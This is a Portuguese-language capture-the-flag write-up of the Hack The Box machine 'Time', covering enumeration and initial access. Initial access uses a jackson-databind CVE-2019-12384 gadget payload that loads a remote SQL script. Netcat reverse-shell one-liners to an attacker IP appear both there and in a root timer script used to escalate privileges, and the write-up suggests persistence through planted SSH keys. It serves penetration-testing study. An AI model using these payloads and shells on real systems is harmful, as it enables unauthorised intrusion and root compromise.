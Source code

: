 ```yaml
---
layout: single
title: "Hackthebox write-up: Time"
namespace: "Hackthebox write-up: Time"
category: writeup
tags: HackTheBox htb-medium htb-linux
date: 2021-04-03 16:00:00
header:
   teaser: https://i.imgur.com/dL9pe5L.png
---
```


Olá pessoal!

A máquina desta semana será **Time**, outra máquina Linux classificada como mediana do [Hack The Box](https://www.hackthebox.eu), criada por [egotisticalSW](https://app.hackthebox.eu/users/94858) e [felamos](https://app.hackthebox.eu/users/27390).<!--more-->

:information_source: **Info**: Write-ups para máquinas do Hack The Box são postados assim que as respectivas máquinas são aposentadas
{: .notice--info}

![Time](https://i.imgur.com/UViaunV.png){: .align-center}

## Enumeração

Iniciamos com a enumeração dos serviços publicado a partir de um quick scan do `nmap`, onde o output se encontra abaixo.

```bash
$ nmap -sC -sV -Pn -oA quick 10.10.10.214
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-26 16:08 -03
Nmap scan report for 10.10.10.214
Host is up (0.077s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 0f:7d:97:82:5f:04:2b:e0:0a:56:32:5d:14:56:82:d4 (RSA)
|   256 24:ea:53:49:d8:cb:9b:fc:d6:c4:26:ef:dd:34:c1:1e (ECDSA)
|_  256 fe:25:34:e4:3e:df:9f:ed:62:2a:a4:93:52:cc:cd:27 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Online JSON parser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.70 seconds
```

### 80/TCP - Serviço HTTP

Iniciando a verificação pelo serviço HTTP que executa na porta 80, vemos que temos um serviço de validação e formatação de arquivo JSON

![Online JSON Parser - Time](https://i.imgur.com/KWUpOXL.png){: .align-center}

Após executar algumas enumerações utilizando `whatweb` e `nikto` não encontrei nada útil, logo parti para a enumeração da aplicação buscando por alguma vulnerabilidade de injeção de código ou LFI.

Analisando a aplicação temos duas funcionalidades: **Beautify** e **Validate**:

- A opção **beautify**, ao receber um JSON válido, o formata de forma "bonita" e, ao enviar um request inválido (por exemplo "test"), retorna o valor `null`.

![image-20210227103837978](https://i.imgur.com/gwqqcNt.png){: .align-center}

- Já a opção em beta **validate** verifica a sintaxe do JSON fornecido. Quando enviamos um request inválido (por exemplo "test"), exceção não esperada da aplicação é exibida.

  ```output
  Validation failed: Unhandled Java exception: com.fasterxml.jackson.core.JsonParseException: Unrecognized token 'test': was expecting 'null', 'true', 'false' or NaN
  ```

## Acesso inicial

Ao buscar por `com.fasterxml.jackson.core` encontrei detalhes sobre o projeto **Jackson**, desenvolvido pela **FasterXML** e do qual o componente core é base para o [jackson-databind](https://github.com/FasterXML/jackson-databind), popular pela sua biblioteca de JSON, a qual é implementada neste portal para as funcionalidades de validação e formatação.

Pesquisando por CVEs para o jackson-databind, os seguintes foram encontrados para execução de código em 2019, de acordo com o site [CVE Details](https://www.cvedetails.com):

![image-20210227112026175](https://i.imgur.com/ju87o1J.png){: .align-center}

Dos 4 itens listados, encontrei para o **CVE-2019-12384** um PoC funcional [neste blog](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html), o qual utilizei para obter o acesso inicial. Os seguintes passos foram executados para obter um shell reverso:

- Criação de um arquivo `inject.sql` com o código abaixo, modificado da versão do blog para iniciar um shell reverso para a máquina atacante na porta 4443 e publicado usando um servidor HTTP python3 (`sudo python3 -m http.server 80`) a partir do diretório de onde o arquivo se encontra.

  ```sql
  CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
      String[] command = {"bash", "-c", cmd};
      java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
      return s.hasNext() ? s.next() : "";  }
  $$;
  CALL SHELLEXEC('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f')
  ```

- Configurando listener via netcat com o comando `nc -lnvp 4443`.
- Enviado o payload abaixo na aplicação no lugar do JSON a ser validado.

  ```output
  ["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.10.10/inject.sql'"}]
  ```

![Listener and Webserver - Time](https://i.imgur.com/xsb87hN.png){: .align-center}

![Online Json Parser - Sending the payload](https://i.imgur.com/SiAG5hB.png){: .align-center}

## User flag

Após upgrade do shell, iniciado enumeração e identificado que o usuário utilizado, **pericles**, era um usuário comum do Linux e não possuía nenhum tipo de privilégio especial.

```bash
pericles@time:/var/www/html$ id
uid=1000(pericles) gid=1000(pericles) groups=1000(pericles)
```

Acessando seu diretório raiz, encontrado o user.txt onde foi obtido o primeiro flag.

```bash
pericles@time:/var/www/html$ cd ~
pericles@time:/home/pericles$ cat user.txt 
<redacted>
pericles@time:/home/pericles$ 
```

## Root flag

Antes de dar continuidade na enumeração, para simplificar o processo de obtenção de um shell reverso se necessário, criado uma chave SSH usando o `ssh-keygen` e incluído a chave pública no arquivo `~/.ssh/authorized_keys`, o que nos permidiu conectar diretamente ao usuário pericles via SSH.

A enumeração foi realizada utilizando o script `linpeas.sh` e um dos itens encontrados chamou bastante atenção, fazendo referência ao nome da máquina: um arquivo shell de propriedade do usuário `pericles` no caminho `/usr/bin/timer_backup.sh`.

Este arquivo está configurado para execução através de um **system timer** (`/etc/systemd/system/timer_backup.timer` e `/etc/systemd/system/timer_backup.service`) e configurado para execução **a cada 10s** com privilegios de `root`.

Como temos privilégios para editar o shell script, inclui a linha abaixo para obter um shell reverso e, após alguns segundos, recebi um shell reverso! :smile:

```bash
rm /tmp/g;mkfifo /tmp/g;cat /tmp/g|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/g
```

Como o processo é reexecutado após 10s, todos os processos existentes são finalizados e perdemos a conexão com a máquina. Apenas obter o flag de root é uma tarefa possível neste tempo, o que foi utilizado inicialmente.

```bash
$ nc -lnvp 4443
listening on [any] 4443 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.214] 33304
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
<redacted>
#      
```

Caso queira uma conexão mais persistente temos duas opções iniciais:

- Configurar o system timer para incluir a chave pública no arquivo `/root/.ssh/authorized_keys`, nos permitindo conectar via SSH como `root`.
- Iniciar outro shell reverso assim que obtermos a conexão inicial, que pode ser alcançado de múltiplas formas como Metasploit AutoRunScript e colocando uma instrução para ser passada assim que uma conexão via netcat é estabelecida, conforme podemos ver abaixo onde o comando `id` é executado assim que a sessão é iniciada:

```bash
printf "id\n" | nc -lnvp 4443
```

Espero que tenha sido útil e vejo vocês no próximo post! :smiley:
